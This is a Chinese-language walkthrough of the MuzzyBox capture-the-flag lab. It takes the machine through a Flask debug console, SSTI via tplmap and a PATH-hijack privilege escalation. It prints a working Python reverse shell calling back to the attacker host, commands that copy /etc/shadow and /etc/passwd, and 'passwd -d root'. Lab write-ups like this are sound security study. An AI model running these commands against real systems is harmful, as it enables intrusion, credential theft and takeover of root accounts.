

## MuzzyBox: 1: Walkthrough

### 主机识别

`nmap -sn 192.168.1.1/24`

### 网络拓扑

| 计算机   | IP              |
| -------- | --------------- |
| Kali     | `192.168.1.107` |
| MuzzyBox | `192.168.1.105` |

### 扫描端口和版本信息

`nmap -A 192.168.1.105`


### 访问Web并确认web应用

访问 *80* 端口我们看到有三个挑战，看来需要逐个通过这些挑战

### 挑战 1


根据页面信息是需要上传一张图片来识别，刚开始认为是参考图片中存在某些信息，不过分析过后并没有什么特别。多次尝试后又根据提示是需要上传它的 *screenshot*，看来是要修改这个*idcard*


>  得到第一个重要信息：`P!N_!$_123-456-789}`

### 挑战 2

这是一个 *Flask* 应用，并且打开了 **debug** 调试模式，可能可以执行系统命令[^1]



将该代码复制到 *console* 执行，并在 Kali 上开启监听即可 *getshell*

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.107",6677));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```


> 得到第二个重要信息：`N$cTF{R34D_F!L3_/home/webssti/noflag.txt}`

看来我们的下一个目标就是读取该文件：`/home/webssti/noflag.txt`

### 挑战 3


测试发现存在 *XSS* 漏洞，不过这里是 **SSTI** 漏洞。为了利用该漏洞，使用 **tplmap** 开源工具

```python
git clone https://github.com/epinna/tplmap.git
cd tplmap/
ls
python2 tplmap.py -u "http://192.168.1.105:15000/page?name=muzzy" --os-shell
```


> 得到第三个重要信息：`ssh nsctf iamnsce`

接下来我们就是用 *ssh* 连接虚拟机，并且发现该目录（`/usr/local/sbin`）的用户组是 *nsctf*，也就说明该目录下的命令我们都可以执行


在该目录下新建 `ls` 文件，并且也可以删除 *root* 用户的密码

```
cat /root/Final_Flag.txt > /home/nsctf/flag.txt
cat /etc/passwd > /home/nsctf/passwd.txt
cat /etc/shadow > /home/nsctf/shadow.txt
passwd -d root
```


### 总结

虽然通过`uname -r`看到该Linux内核版本是：*4.15.0-88-generic*，经过 OSINT 找到该 exp[^2]，但是需要某些命令支持，并且低权限用户不具备安装软件条件

### Ref.

- [hackingarticles](https://www.hackingarticles.in/muzzybox-1-vulnhub-walkthrough/)

---

[^1]: [Flask 打开 Debug 模式直接 getshell](https://blog.ixuchao.cn/archives/32.html)
[^2]: [exploit-db](https://www.exploit-db.com/exploits/47166)

